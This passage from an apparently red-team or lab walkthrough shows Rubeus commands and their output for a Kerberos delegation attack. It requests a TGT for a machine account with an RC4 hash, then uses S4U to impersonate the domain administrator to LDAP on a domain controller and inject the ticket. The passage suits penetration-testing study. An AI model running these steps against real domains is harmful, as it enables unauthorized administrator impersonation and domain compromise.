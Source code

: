 ### Step 5 - Requesting TGT

```plain
PS Z:> .\Rubeus.exe asktgt /user:JDIWKAKA$ /domain:offsec.nl /rc4:CC7EC46213E1EB105FFFC97F34AEAF64

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: CC7EC46213E1EB105FFFC97F34AEAF64
[*] Building AS-REQ (w/ preauth) for: 'offsec.nl\JDIWKAKA$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFfjCCBXqgAwIBBaEDAgEWooIElTCCBJF[...]mJ0Z3QbC3Byb2QuYmFtLm5s

  ServiceName              :  krbtgt/offsec.nl
  ServiceRealm             :  OFFSEC.NL
  UserName                 :  JDIWKAKA$
  UserRealm                :  OFFSEC.NL
  StartTime                :  02/05/2023 06:12:45
  EndTime                  :  02/05/2023 16:12:45
  RenewTill                :  09/05/2023 06:12:45
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  nmas9lybWx+91337H9Cw==
  ASREP (key)              :  94D178D478713374203D632D7B613B7
```

### Step 6 - Impersonate CIFS/LDAP Tickets

#### LDAP

```plain
PS Z:\> .\Rubeus.exe s4u /ticket:doIFfjCCBXqgAwIBBaEDAgEWooIElTCCBJF[...]mJ0Z3QbC3Byb2QuYmFtLm5s /impersonateuser:administrator /msdsspn:LDAP/dc03.offsec.nl /dc:10.10.20.53 /ptt

[*] Action: S4U

[*] Using domain controller: 10.10.20.53
[*] Building S4U2self request for: 'JDIWKAKA$@OFFSEC.NL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'JDIWKAKA$@OFFSEC.NL'
[*] base64(ticket.kirbi):

      doIGxjCCBsKgAwIBB[...]1ZKWVJUJA==

[*] Impersonating user 'administrator' to target SPN 'LDAP/dc03.offsec.nl'
[*] Using domain controller: 10.10.20.53
[*] Building S4U2proxy request for service: 'LDAP/dc03.offsec.nl'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'LDAP/dc03.offsec.nl':

      doIFfjCCBXqgAwIBBaEDAgEWooIElTCCBJF[...]mJ0Z3QbC3Byb2QuYmFtLm5s

```